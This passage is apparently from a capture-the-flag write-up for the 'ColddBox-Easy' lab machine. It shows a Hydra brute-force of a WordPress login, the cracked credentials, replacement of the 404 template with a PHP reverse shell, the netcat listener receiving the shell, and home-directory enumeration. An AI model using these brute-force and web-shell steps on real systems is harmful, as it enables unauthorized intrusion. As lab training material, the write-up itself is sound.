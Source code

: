   ```
  hydra -L users.txt -P /rockyou.txt  10.10.60.173 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
  [SNIP!]
  [80][http-post-form] host: 10.10.60.173   login: c0ldd   password: 9876543210
  [SNIP!]
  ```

- I stopped Hydra after first hit since it will take forever in order for it to go through all usernames. Login in to `wp-admin` with following credentials.
  
---

## ⚙️ Shell Access

- OK, so this took a while since I was trying different methods to upload shell (page, plugins, etc.). In the end I got it by editing the `404 Template`.
  Got to Appearances -> Editor -> 404 Template. Delete the whole template and paste shell content there then update it. After that, start a listener and purposely cause 404 error somewhere on website. I did it with blog page `http://10.10.60.173/?p=7`.
  Since blog page 7 doesnt exist you will get a reverse shell on your netcat listener.

  ```
  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.60.173] 40640
  Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
   14:23:47 up 38 min,  0 users,  load average: 0.00, 0.04, 0.17
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- You can use any PHP reverse shell for editing 404 templates. If you are using Kali, you have one in `/usr/share/webshells/php`. Don't forget to change IP and Port in `php-reverse-shell.php` before putting it on web.
  
- Change it to putty shell and start looking for flags.

---

## 🧍 User Privilege Escalation

- I found a first flag but couldnt read it.

  ```
  www-data@ColddBox-Easy:/home$ cd c0ldd/
  www-data@ColddBox-Easy:/home/c0ldd$ ls -al
  total 24
  drwxr-xr-x 3 c0ldd c0ldd 4096 Oct 19  2020 .
  drwxr-xr-x 3 root  root  4096 Sep 24  2020 ..
  -rw------- 1 c0ldd c0ldd    0 Oct 19  2020 .bash_history
  -rw-r--r-- 1 c0ldd c0ldd  220 Sep 24  2020 .bash_logout
  -rw-r--r-- 1 c0ldd c0ldd    0 Oct 14  2020 .bashrc
  drwx------ 2 c0ldd c0ldd 4096 Sep 24  2020 .cache
  -rw-r--r-- 1 c0ldd c0ldd  655 Sep 24  2020 .profile
  -rw-r--r-- 1 c0ldd c0ldd    0 Sep 24  2020 .sudo_as_admin_successful
  -rw-rw---- 1 c0ldd c0ldd   53 Sep 24  2020 user.txt
  
  www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt 
  cat: user.txt: Permission denied
  ```
  